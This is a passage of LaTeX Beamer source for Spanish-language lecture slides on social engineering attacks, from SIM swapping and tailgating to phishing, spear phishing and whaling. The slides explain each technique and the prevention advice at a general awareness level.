\begin{center}
\includegraphics[width=\textwidth,height=0.64\textheight,keepaspectratio]{img/sl018_1.png}
\end{center}
\fuente{Fuente: \emph{La Razón}. Véase también el vídeo del timo del CEO enlazado unas transparencias antes.}
\end{frame}

\begin{frame}{Basados en humanos}
\small
\lead{\term{SIM swapping}:}
Suplantación de la víctima ante la operadora para obtener un duplicado de su SIM e interceptar
los códigos de verificación enviados por SMS. Es la razón por la que el SMS es el segundo factor
\textbf{más débil}: quien controla la línea controla el 2FA.
\begin{center}
\includegraphics[width=\textwidth,height=0.62\textheight,keepaspectratio]{img/sl021_1.png}
\end{center}
\end{frame}

\begin{frame}{Basados en humanos}
\small
\lead{\term{Tailgating}:}
  \begin{itemize}
  \item El término \term{tailgating} tiene varios significados según el contexto. En seguridad se refiere a una brecha de seguridad física en la que un intruso sigue de cerca a una persona autorizada para entrar en un área restringida; fuera de ella designa también la acción de conducir demasiado pegado al vehículo delantero o una fiesta previa a un evento en un aparcamiento.
  \item Diferencia con el \term{piggybacking}: en el \term{tailgating} el empleado \textbf{no es consciente} de que alguien entra detrás de él; en el \term{piggybacking} colabora activamente, engañado por un pretexto.
  \item Requiere:
    \begin{itemize}
    \item Confianza y cortesía.
    \item Falta de vigilancia.
    \item Acceso no autorizado.
    \end{itemize}
  \item Vídeo: \href{https://www.youtube.com/watch?v=htZSBEyQR9E}{Problemas de tailgating en sistemas de control de accesos}.
  \end{itemize}
\end{frame}

\begin{frame}{Basados en humanos}
\footnotesize
\begin{columns}[c]
\begin{column}{0.56\textwidth}
\lead{\term{Vishing}:}
  \begin{itemize}
  \item \term{Voice phishing}: \term{impersonation} realizada mediante la voz (\href{https://attack.mitre.org/techniques/T1566/004/}{T1566.004} en MITRE ATT\&CK).
  \item Es una estafa telefónica en la que los criminales fingen ser tu banco, una empresa o la policía para robar tus datos secretos o tu dinero. Usan programas para ocultar su número real y mostrar uno falso que parece oficial (\term{caller ID spoofing}).
  \item Cómo funciona la estafa:
    \begin{itemize}
    \item Falsa alarma: te dicen que hay un problema grave o un pago extraño en tu cuenta.
    \item Mucha prisa: meten miedo para que actúes rápido sin pensar.
    \item Robo de claves: piden tu DNI, claves o códigos que llegan por mensaje de texto.
    \end{itemize}
  \end{itemize}
\end{column}
\begin{column}{0.42\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.79\textheight,keepaspectratio]{img/vishing-cajamar.png}
\end{center}
\end{column}
\end{columns}
\end{frame}

\begin{frame}{Basados en humanos}
\footnotesize
\lead{\term{Eavesdropping}:}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item Escucha clandestina: interceptar conversaciones, mensajes, correos o documentos de forma deliberada y \textbf{sin el consentimiento} de los participantes.
  \item Su equivalente digital es el ataque \term{Man in the Middle}: robar contraseñas, credenciales bancarias o datos corporativos \emph{en pleno tránsito}.
  \end{itemize}
\vfill
\begin{center}
\includegraphics[width=\textwidth,height=0.565\textheight,keepaspectratio]{img/eavesdropping.jpg}
\end{center}
\vfill
\end{frame}

\begin{frame}{Basados en humanos}
\footnotesize
\lead{\term{Shoulder Surfing}:}
\begin{columns}[c]
\begin{column}{0.55\textwidth}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item Consiste en observar ``por encima del hombro'' cuando un usuario legítimo introduce información sensible: contraseñas, PIN o mensajes confidenciales.
  \item ¿Dónde y cómo ocurre?
    \begin{itemize}\setlength{\itemsep}{0.2em}
    \item Lugares concurridos: transporte público, cafeterías, aeropuertos u oficinas.
    \item Cajeros y datáfonos: al marcar el PIN de una tarjeta.
    \item Móviles y portátiles: al desbloquear la pantalla o escribir credenciales a la vista de otros.
    \item Observación indirecta: binoculares, cámaras o escuchando conversaciones telefónicas.
    \end{itemize}
  \end{itemize}
\end{column}
\begin{column}{0.43\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.78\textheight,keepaspectratio]{img/shoulder-surfing.png}
\end{center}
\end{column}
\end{columns}
\end{frame}

\begin{frame}{Basados en humanos}
\footnotesize
\lead{\term{Dumpster Diving}:}
  \begin{itemize}
  \item Consiste en rebuscar en la basura o en la papelera información como facturas, información financiera, datos de contacto, etc.
  \item Prevención: se recomienda destruir, triturar o incinerar los documentos sensibles antes de tirarlos a la basura.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.585\textheight,keepaspectratio]{img/dumpster-diving-incibe.png}
\end{center}
\end{frame}

\begin{frame}{Basados en humanos}
\scriptsize
\lead{\term{Piggybacking}:}
  \begin{itemize}
  \item La idea es presentar una situación como ``he perdido mi identificación, por favor, ayúdame''. De esta manera, se solicita a una persona autorizada pasar por algún control, ya sea físico o electrónico.
  \item Consiste en obtener acceso no autorizado a un sistema, red o edificio aprovechando las credenciales, la sesión activa o el acceso legítimo de otra persona.
  \item Ámbito físico: es una variante del \term{tailgating}. Un intruso convence de forma sutil a un empleado autorizado para que le deje pasar a un área restringida (por ejemplo, pidiéndole que sujete la puerta porque viene cargado o porque ``olvidó su tarjeta'').
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.51\textheight,keepaspectratio]{img/tailgating-vs-piggybacking.jpg}
\end{center}
\end{frame}

\begin{frame}{Basados en humanos}
\small
\lead{Ingeniería social inversa:}
  \begin{itemize}
  \item Es una situación en la que el atacante crea el contexto para que la víctima sea quien recurra a él para solucionar un problema o para conseguir alguna información. De esta manera, el atacante se erige como autoridad y puede reclamar información sensible a la víctima.
  \item Cómo funciona el ataque:
    \begin{itemize}
    \item Crear el fallo: el atacante rompe un sistema o bloquea una red a propósito.
    \item Dejar un contacto falso: deja un número de teléfono o un sitio web falso que parece oficial.
    \item Pedir ayuda: la persona afectada llama o escribe al falso soporte.
    \item Robar datos: el falso técnico pide contraseñas o acceso libre al equipo para ``arreglarlo''.
    \end{itemize}
  \end{itemize}
\end{frame}

\section{Basados en computadores}

\begin{frame}{Basados en computadores}
\small
  \begin{itemize}
  \item El caso más usual es el ataque no dirigido.
  \item Tienen como objetivo hacerse con credenciales de los usuarios, números de tarjetas bancarias o cualquier otra información sensible del usuario.
  \item Si el ataque no es dirigido, para aumentar las posibilidades de éxito se necesita una gran muestra de usuarios a quienes enviar el phishing.
  \item Tipos:
    \begin{itemize}
    \item Phishing / Spear phishing: ataques dirigidos a objetivos y organizaciones concretas.
    \item Whaling: cuando el objetivo es un alto cargo de la empresa.
    \item Watering Hole: comprometer sitios legítimos que ya tienen la confianza de la víctima.
    \item Smishing: cuando se realiza a través de SMS o de plataformas de mensajería instantánea.
    \item Apps maliciosas: aplicaciones que parecen legítimas y llevan malware oculto.
    \item Ventanas pop-up: ventanas emergentes.
    \item Pharming: spoofing del DNS o redirección del tráfico a webs falsas, copia de la legítima.
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Basados en computadores}
\footnotesize
\lead{\term{Phishing}}
  \begin{itemize}
  \item El phishing es una técnica de estafa digital en la que los atacantes suplantan la identidad de empresas o instituciones de confianza (como bancos, redes sociales o empresas de paquetería) para robar datos personales, contraseñas o números de tarjetas de crédito.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.64\textheight,keepaspectratio]{img/sl023_1.png}
\end{center}
\end{frame}

\begin{frame}{Basados en computadores}
\footnotesize
\lead{\term{Spear Phishing}}
\begin{columns}[c]
\begin{column}{0.56\textwidth}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item El \term{spear phishing} (o ``phishing dirigido'') es un ataque de suplantación muy personalizado contra una persona, un grupo o una empresa concreta. Frente al phishing masivo y al azar, aquí el atacante \textbf{investiga primero} a su víctima.
  \item Cómo funciona:
    \begin{itemize}\setlength{\itemsep}{0.2em}
    \item \textbf{Investigación previa}: datos públicos en LinkedIn, X o Instagram (puesto, jefe directo, viajes, aficiones).
    \item \textbf{Personalización}: nombres reales, jerga de la empresa, situaciones verosímiles.
    \item \textbf{El engaño}: la víctima cree que escribe un compañero, un jefe o un proveedor, y baja la guardia.
    \end{itemize}
  \end{itemize}
\end{column}
\begin{column}{0.42\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.78\textheight,keepaspectratio]{img/spear-vs-phishing.jpg}
\end{center}
\end{column}
\end{columns}
\end{frame}

\begin{frame}{Basados en computadores}
\footnotesize
\lead{\term{Whaling}}
  \begin{itemize}
  \item Un ataque de whaling (o ``caza de ballenas'') es un tipo de fraude cibernético muy dirigido que va tras los altos cargos de una empresa, como directores o presidentes. El atacante suplanta la identidad para robar dinero o datos secretos, usando mensajes urgentes que imitan a jefes o socios importantes.
  \end{itemize}
